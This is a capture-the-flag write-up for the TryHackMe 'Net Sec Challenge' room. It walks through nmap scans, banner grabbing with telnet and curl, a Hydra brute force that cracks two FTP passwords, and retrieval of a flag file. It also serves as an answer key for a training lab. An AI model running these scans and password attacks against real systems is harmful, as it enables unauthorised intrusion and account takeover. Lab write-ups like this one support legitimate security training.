

# Net Sec Challenge

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Medium
Tags: Linux
Subscription type: Premium
Description: Practice the skills you have learned in the Network Security module.
```

Room link: [https://tryhackme.com/room/netsecchallenge](https://tryhackme.com/room/netsecchallenge)

## Solution

### Task 1: Introduction

Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can be solved using only `nmap`, `telnet`, and `hydra`.

### Task 2: Challenge Questions

You can answer the following questions using Nmap, Telnet, and Hydra.

#### What is the highest port number being open less than 10,000?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ sudo nmap -sV -sC -p1-10000 10.65.187.51
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-16 11:23 CET
Nmap scan report for 10.65.187.51
Host is up (0.11s latency).
Not shown: 9995 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         (protocol 2.0)
| ssh-hostkey: 
|   3072 7c:02:77:7e:6c:52:e1:13:dc:58:a5:27:57:5f:b1:99 (RSA)
|   256 fd:c3:83:60:3e:44:ab:e3:23:c5:b4:0d:45:86:08:04 (ECDSA)
|_  256 0f:f0:2a:ec:09:5f:bc:82:37:d0:6e:63:d6:b3:10:a9 (ED25519)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
80/tcp   open  http        lighttpd
|_http-title: Hello, world!
|_http-server-header: lighttpd THM{web_server_25352}
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
8080/tcp open  http        Node.js (Express middleware)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.95%I=7%D=12/16%Time=69413369%P=x86_64-pc-linux-gnu%r(NUL
SF:L,2A,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\x20\r\n");

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: IP-10-65-187-51, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-12-16T10:24:46
|_  start_date: N/A
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.62 seconds
```

Answer: `8080`

#### There is an open port outside the common 1000 ports; it is above 10,000. What is it?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ sudo nmap -sV -sC -p10000- 10.65.187.51
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-16 11:26 CET
Nmap scan report for 10.65.187.51
Host is up (0.11s latency).
Not shown: 55535 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
10021/tcp open  ftp     vsftpd 3.0.5
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 365.55 seconds
```

Answer: `10021`

#### How many TCP ports are open?

From the results above:

- 22/tcp    open  ssh         (protocol 2.0)
- 80/tcp    open  http        lighttpd
- 139/tcp   open  netbios-ssn Samba smbd 4
- 445/tcp   open  netbios-ssn Samba smbd 4
- 8080/tcp  open  http        Node.js (Express middleware)
- 10021/tcp open  ftp         vsftpd 3.0.5

Answer: `6`

#### What is the flag hidden in the HTTP server header?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ telnet 10.65.187.51 80
Trying 10.65.187.51...
Connected to 10.65.187.51.
Escape character is '^]'.
GET / HTTP/1.0

HTTP/1.0 200 OK
Vary: Accept-Encoding
Content-Type: text/html
Accept-Ranges: bytes
ETag: "229449419"
Last-Modified: Tue, 14 Sep 2021 07:33:09 GMT
Content-Length: 226
Connection: close
Date: Tue, 16 Dec 2025 10:36:12 GMT
Server: lighttpd THM{<REDACTED>}

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Hello, world!</title>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width,initial-scale=1" />
</head>
<body>
  <h1>Hello, world!</h1>
</body>
</html>
Connection closed by foreign host.
```

or

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ curl -I http://10.65.187.51
HTTP/1.1 200 OK
Content-Type: text/html
Accept-Ranges: bytes
ETag: "229449419"
Last-Modified: Tue, 14 Sep 2021 07:33:09 GMT
Content-Length: 226
Date: Tue, 16 Dec 2025 10:36:53 GMT
Server: lighttpd THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

#### What is the flag hidden in the SSH server header?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ telnet 10.65.187.51 22     
Trying 10.65.187.51...
Connected to 10.65.187.51.
Escape character is '^]'.
SSH-2.0-OpenSSH_8.2p1 THM{<REDACTED>}
^C^C^C
Connection closed by foreign host.
```

Answer: `THM{<REDACTED>}`

#### We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

From the results of question 1 and 3.

Answer: `vsftpd 3.0.5`

We learned two usernames using social engineering: eddie and quinn.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ vi users.txt 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ cat users.txt              
eddie
quinn
```

#### What is the flag hidden in one of these two account files and accessible via FTP?

Bruteforce the login with Hydra:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -s 10021 ftp://10.65.187.51
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-16 11:47:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 43033197 login tries (l:3/p:14344399), ~2689575 tries per task
[DATA] attacking ftp://10.65.187.51:10021/
[10021][ftp] host: 10.65.187.51   login: eddie   password: jordan
[10021][ftp] host: 10.65.187.51   login: quinn   password: andrea
[STATUS] 28689184.00 tries/min, 28689184 tries in 00:01h, 14344013 to do in 00:01h, 16 active
[STATUS] 14344896.00 tries/min, 28689792 tries in 00:02h, 14343405 to do in 00:01h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Try to login to the FTP-service as eddie:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ ftp              
ftp> open 10.65.187.51 10021
Connected to 10.65.187.51.
220 (vsFTPd 3.0.5)
Name (10.65.187.51:kali): eddie
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30518|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||30616|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Sep 20  2021 .
drwxr-xr-x    3 1001     1001         4096 Sep 20  2021 ..
-rw-r--r--    1 1001     1001          220 Sep 14  2021 .bash_logout
-rw-r--r--    1 1001     1001         3771 Sep 14  2021 .bashrc
drwx------    2 1001     1001         4096 Sep 20  2021 .cache
-rw-r--r--    1 1001     1001          807 Sep 14  2021 .profile
226 Directory send OK.
ftp> quit
221 Goodbye.
```

Try to login to the FTP-service as quinn:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ ftp                                                                               
ftp> open 10.65.187.51 10021
Connected to 10.65.187.51.
220 (vsFTPd 3.0.5)
Name (10.65.187.51:kali): quinn
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30287|)
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> mget ftp*
mget ftp_flag.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||30041|)
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
100% |****************************************************************************************************************************************************************|    18       11.75 KiB/s    00:00 ETA
226 Transfer complete.
18 bytes received in 00:00 (0.15 KiB/s)
ftp> quit
221 Goodbye.
```

And finally, get the flag:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ cat ftp_flag.txt 
THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

Browsing to `http://10.65.187.51:8080` displays a small challenge that will give you a flag once you solve it.



#### What is the flag?

After some trial-and-error, a slower NULL-scan gave me the flag:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Net_Sec_Challenge]
└─$ sudo nmap -Pn -T3 -sN 10.65.187.51
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-16 12:04 CET
Nmap scan report for 10.65.187.51
Host is up (0.12s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
8080/tcp open|filtered http-proxy

Nmap done: 1 IP address (1 host up) scanned in 7.60 seconds
```

Answer: `THM{<REDACTED>}`

### Task 3: Summary

Congratulations. In this module, we have learned about passive reconnaissance, active reconnaissance, Nmap, protocols and services, and attacking logins with Hydra.

For additional information, please see the references below.

## References

- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [ftp - Linux manual page](https://linux.die.net/man/1/ftp)
- [Hydra - GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Hydra - Kali Tools](https://www.kali.org/tools/hydra/)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Nmap - Wikipedia](https://en.wikipedia.org/wiki/Nmap)
- [telnet - Linux manual page](https://linux.die.net/man/1/telnet)
- [Telnet - Wikipedia](https://en.wikipedia.org/wiki/Telnet)
